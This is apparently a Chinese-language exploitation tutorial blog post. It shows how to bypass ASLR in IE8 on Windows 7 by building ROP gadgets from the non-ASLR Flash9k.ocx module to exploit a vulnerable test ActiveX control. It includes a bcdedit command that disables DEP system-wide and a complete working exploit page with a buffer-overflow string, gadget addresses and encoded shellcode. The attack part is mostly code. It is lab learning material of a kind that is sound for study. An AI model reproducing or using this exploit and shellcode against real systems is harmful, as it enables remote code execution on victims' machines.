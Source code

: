 ```yaml
---
layout:		post
title:		攻击未启用ASLR的模块
author:		wooy0ung
tags:		windows
category:  	exploit
---
```



>[分析环境]  
>系统: Windows 7 Professional sp0 x86  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
>浏览器: Internet Explorer 8  
>Flash Player ActiveX: 9.0.262  
>注意: 关闭系统DEP  
<!-- more -->


### 0x00 前期准备

确定Flash9k.ocx加载基址是否固定不变, 重启前

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x00.png)

重启后

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x01.png)

然后注册*.ocx, 这里可以用VulnerAX_DEP.ocx

```
<html>  
<body>  
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
  <param name="movie" value="1.swf" />
  <param name="quality" value="high" />
  <embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260"></embed>
</object>
<object classid="clsid:39F64D5B-74E8-482F-95F4-918E54B1B2C8" id="test"></object>  
<script>  
var s = "\u9090";
while (s.length < 54) {
s += "\u9090";
}
s += "\u9090\u9090";
test.test(s);  
</script>  
</body>  
</html>
```

准备test.html文件, 贴入以上内容

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x02.png)

来到这里OD附加上去

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x03.png)

EIP已经被覆盖成0x90909090


### 0x01 构造rop

避免DEP干扰实验, 先关掉

```
> bcdedit.exe/set {current} nx AlwaysOff
``` 

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x04.png)

然后构造rop, 在Flash9k.ocx空间找到两条jmp esi(0xFFE6)指令

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x05.png)

0x100A5FC7处含有未知指令C7, 只有0x1012E78A能用

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x06.png)

这里要读[EAX], 先修复一EAX

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x07.png)

找到一条mov eax,edx retn 8(0x1014d286)


### 0x02 exploit

完整的exp

```
<html>  
<body>  
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
  <param name="movie" value="1.swf" />
  <param name="quality" value="high" />
  <embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260"></embed>
</object>
<object classid="clsid:06BC9528-F8A0-456B-BBBB-09C1248BF827" id="test"></object>  
<script>  
var s = "\u9090";
while (s.length < 54) {
s += "\u9090";
}
s += "\uD286\u1014\u9090\u9090\uE78A\u1012\u9090\u9090";
s += "\ud231\u30b2\u8b64\u8b12\u0c52\u528b\u8b1c\u0842\u728b\u8b20\u8012\u0c7e\u7533\u89f2\u03c7\u3c78\u578b\u0178\u8bc2\u207a\uc701\ued31\u348b\u01af\u45c6\u3e81\u6146\u6174\uf275\u7e81\u4508\u6978\u7574\u8be9\u247a\uc701\u8b66\u6f2c\u7a8b\u011c\u8bc7\uaf7c\u01fc\u68c7\u2067\u0120\u7968\u7530\u686e\u7720\u6f6f\ue189\u49fe\u310b\u51c0\uff50\u90d7";
test.test(s);  
</script>  
</body>  
</html>
```

pwn~

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x08.png)